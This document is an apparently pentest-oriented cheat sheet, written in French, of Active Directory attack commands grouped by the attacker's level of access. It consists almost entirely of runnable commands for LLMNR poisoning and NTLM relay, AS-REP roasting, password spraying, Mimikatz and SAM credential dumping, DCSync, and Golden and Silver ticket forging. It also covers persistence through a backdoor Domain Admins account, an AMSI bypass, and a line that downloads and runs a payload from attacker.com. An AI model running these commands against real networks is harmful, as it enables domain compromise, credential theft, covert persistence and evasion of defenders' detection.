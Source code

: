 # Stratégies d'attaque Active Directory selon le niveau d'accès
## Sans credentials
### Découverte réseau et énumération initiale
```bash
# Découverte d'hôtes actifs
fping -asgq 192.168.1.0/24
nmap -sn 192.168.1.0/24

# Identification des contrôleurs de domaine
nmap -p 389,636,3268,3269,88,53,445 --open 192.168.1.0/24
```
### Exploitation des services anonymes
#### LDAP anonyme
```bash
# Vérifier si l'accès anonyme est autorisé
ldapsearch -x -h 192.168.1.10 -p 389 -b "dc=domain,dc=local" -s sub "(objectclass=*)"

# Extraire des informations sur le domaine
ldapsearch -x -h 192.168.1.10 -p 389 -b "dc=domain,dc=local" -s base "objectclass=*"
```
#### SMB anonyme
```bash
# Énumération des partages accessibles
smbmap -H 192.168.1.10 -u '' -p ''
smbclient -N -L //192.168.1.10

# Accès aux partages sans authentification
smbclient -N //192.168.1.10/SYSVOL
```
### Empoisonnement LLMNR/NBT-NS
```bash
# Lancement de Responder
sudo responder -I eth0 -wfv

# Craquage des hashes capturés
hashcat -m 5600 hashes.txt wordlist.txt

# Configuration pour le relais NTLM (attaque plus avancée)
sudo ntlmrelayx.py -t smb://192.168.1.10 -smb2support

# Ou pour relayer vers LDAP/S afin d'obtenir plus de privilèges
sudo ntlmrelayx.py -t ldaps://192.168.1.10 --delegate-access
```
### Exploitation des services web
```bash
# Découverte des portails web
nmap -p 80,443,8080,8443 --open 192.168.1.0/24

# Fuzzing des sous-domaines
wfuzz -u http://domain.local -H "Host: FUZZ.domain.local" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hw 26
```
## Avec un accès initial (assumed breach)
### Énumération post-compromission
```powershell
# Informations sur l'utilisateur actuel
whoami /all

# Énumération du domaine avec PowerView
Import-Module .\PowerView.ps1
Get-Domain
Get-DomainController
Get-DomainPolicy | select -ExpandProperty SystemAccess
```
### Recherche de privilèges et accès
```powershell
# Recherche d'accès administrateur local
Find-LocalAdminAccess

# Recherche de sessions utilisateurs
Find-DomainUserLocation | select UserName,SessionFromName

# Recherche de partages intéressants
Find-DomainShare -CheckShareAccess
```
### Collecte avec BloodHound
```powershell
# Exécution de SharpHound
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All

# Depuis Linux avec un compte compromis
bloodhound-python -u user -p 'password' -d domain.local -c All -ns 192.168.1.10
```
### Exploitation des ACLs
```powershell
# Recherche d'ACLs exploitables pour l'utilisateur actuel
$sid = Convert-NameToSid "username"
Get-DomainObjectACL -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```
## Avec un username mais pas de mot de passe
### AS-REP Roasting
```bash
# Identification des comptes sans pré-authentification Kerberos
GetNPUsers.py domain.local/ -dc-ip 192.168.1.10 -request -format hashcat -usersfile users.txt
# Ou pour tester tous les utilisateurs du domaine
GetNPUsers.py domain.local/ -dc-ip 192.168.1.10 -request -format hashcat -no-pass

# Craquage des hashes
hashcat -m 18200 hashes.txt wordlist.txt
```
### Password Spraying
```bash
# Avec Kerbrute (méthode discrète)
kerbrute passwordspray -d domain.local --dc 192.168.1.10 users.txt 'Spring2023!'

# Avec CrackMapExec
crackmapexec smb 192.168.1.10 -u users.txt -p 'Spring2023!' --continue-on-success
```
### Recherche de mots de passe dans des sources publiques
```bash
# Vérification des fuites de données
curl -s https://haveibeenpwned.com/api/v3/breachedaccount/user@domain.com

# Recherche sur GitHub et Pastebin
# Utiliser des outils comme trufflehog ou gitleaks
```
## Avec un mot de passe mais pas d'username
### Bruteforce d'utilisateurs
```bash
# Avec Kerbrute
kerbrute userenum -d domain.local --dc 192.168.1.10 userlist.txt

# Avec SMB
crackmapexec smb 192.168.1.10 -u userlist.txt -p 'KnownPassword' --continue-on-success
```
### Énumération RID
```bash
# Avec rpcclient
rpcclient -U "" -N 192.168.1.10
rpcclient $> enumdomusers

# Avec impacket
lookupsid.py 'anonymous:@192.168.1.10'
```
### Vérification des conventions de nommage
```bash
# Génération de listes d'utilisateurs basées sur des modèles
# Exemple: prénom.nom, p.nom, pnom, etc.
for name in $(cat names.txt); do
  echo "${name}" >> userlist.txt
  echo "${name:0:1}.${name}" >> userlist.txt
  echo "${name:0:1}${name}" >> userlist.txt
done
```
## Scénario post-exploitation
### Extraction de credentials
```powershell
# Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'

# Dump des hashes SAM
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save

#and to dump:
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
### Élévation de privilèges via DCSync
```powershell
# Vérification des droits DCSync
Get-ObjectAcl "DC=domain,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get') }

# Exécution de DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:domain.local /user:krbtgt"'
secretsdump.py -just-dc domain.local/user:password@192.168.1.10
```
### Création de Golden/Silver Tickets
```powershell
# Golden Ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:domain.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_KRBTGT /user:FakeAdmin /id:500 /ptt"'

# Silver Ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:domain.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_COMPUTER_ACCOUNT /user:FakeAdmin /service:cifs /target:server.domain.local /ptt"'
```
### Persistance
```powershell
# Ajout d'un utilisateur au groupe Domain Admins
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'backdooruser'

# Création d'un compte machine avec délégation
New-MachineAccount -MachineAccount "PERSISTENCE$" -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
Set-ADComputer -Identity "PERSISTENCE$" -TrustedForDelegation $true
```
### Évasion des détections
```powershell
# Contournement d'AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Exécution en mémoire
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')

# Utilisation de canaux de communication alternatifs
# DNS, ICMP, etc.
```
